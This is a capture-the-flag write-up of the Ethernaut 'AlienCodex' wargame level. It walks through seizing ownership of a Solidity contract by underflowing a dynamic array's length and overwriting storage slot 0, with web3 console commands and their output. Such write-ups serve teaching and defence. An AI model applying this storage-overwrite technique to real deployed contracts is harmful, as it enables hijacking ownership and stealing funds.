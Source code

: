 # Level 19: AlienCodex

### Wargame
Claim ownership to complete the level.

### Key InsightsUse
* Storage Slot

### Attack Steps
1. Before executing the attack, display the address of the target contract and inspect storage slot 0 and 1 to understand the current contract state.
    ```bash
    > instance
    '0x7295e2209Cb7991d9D820eb5Bc0cEEb6ED93D925'

    > await contract.owner()
    '0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'

    > await contract.isOwner()
    false

    > await web3.eth.getStorageAt(instance, 0)
    '0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'

    > await web3.eth.getStorageAt(instance, 1)
    '0x0000000000000000000000000000000000000000000000000000000000000000'
    ```
* Slot 0 stores the current owner address.
* Slot 1 stores the length of the codex dynamic array, which is 0 initially.

2. Deploy the AlienCodexAttack contract, passing the target contract address as the constructor argument.

3. Call attackPrepare() from the AlienCodexAttack contract.
* Unlocks access to internal array functions.
* Exploits an underflow to allow writing to any storage slot in the contract.

4. After the transaction is confirmed, verify that the storage has changed:
    ```bash
    > await web3.eth.getStorageAt(instance, 0)
    '0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd11'

    > await web3.eth.getStorageAt(instance, 1)
    '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
    ```
* Notice that slot 1 has now been overwritten with the maximum possible value for a uint256, effectively allowing index-based writes to any storage slot using codex.

5. Call attack() on the AlienCodexAttack contract.
* This step calculates the index needed to overwrite slot 0 and sets it to your address.

6. After the transaction is confirmed, confirm the ownership has been taken over:
    ```bash
    > await web3.eth.getStorageAt(instance, 0)
    '0x000000000000000000000000eb47eab0027b0ddd5615d00f9d83ec0e71d3aeff'

    > await contract.owner()
    '0xEB47eAB0027B0DDd5615D00f9D83eC0e71D3aeFf'

    > await contract.isOwner()
    true
	```
* The owner has now been successfully overwritten with your address.
* You now pass the isOwner() check.
